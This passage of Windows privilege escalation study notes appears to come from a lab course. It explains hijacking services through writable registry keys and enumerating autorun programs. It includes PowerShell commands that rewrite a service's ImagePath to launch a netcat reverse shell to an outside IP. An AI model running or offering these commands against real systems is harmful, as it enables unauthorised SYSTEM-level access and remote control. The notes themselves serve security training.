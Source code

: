 Basically, this command will recursively scan all subkeys under `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services`.  For each key, it checks if the user `mrb3n` has write permissions.

If `mrb3n` has write access to a service registry key, you can often:

- Hijack the service (change `ImagePath`, `binPath`, etc.)
- Get privilege escalation, especially if the service runs as SYSTEM
- Combine with service restart or reboot to trigger code execution

Above, find the change the binary path. Also let's understand the difference:

**binPath vs. ImagePath**

| Term                    | Where it's used                                                               | Meaning                                                      |
| ----------------------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `ImagePath`             | **Registry** value under `HKLM\SYSTEM\CurrentControlSet\Services\YourService` | Path to the executable that gets run when the service starts |
| `binPath` or `binPath=` | **Used in command-line tools** like `sc.exe`                                  | Argument that sets or shows the `ImagePath` for a service    |


- `ImagePath` is the actual registry value name    
- `binPath=` is just **how it's referred to in commands**


### Changing ImagePath with PowerShell

The `ImagePath` is a registry value under each service’s key that tells Windows what binary or command to execute when starting the service.

We can abuse this using the PowerShell cmdlet `Set-ItemProperty` to change the `ImagePath` value, using a command such as:

```powershell
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Tools\nc64.exe -e cmd.exe 10.10.14.158 8443"

Set-ItemProperty -Path HKLM:\System\CurrentControlSet\services\TrkWks -Name "ImagePath" -Value "C:\Tools\nc64.exe -e cmd.exe 10.10.14.158 8443"

```


## Modifiable Registry Autorun Binary

### Check Startup Programs

We can use WMIC to see what programs run at system startup.

```powershell
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

 Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

This [post](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html) and [this site](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2) detail many potential autorun locations on Windows systems.

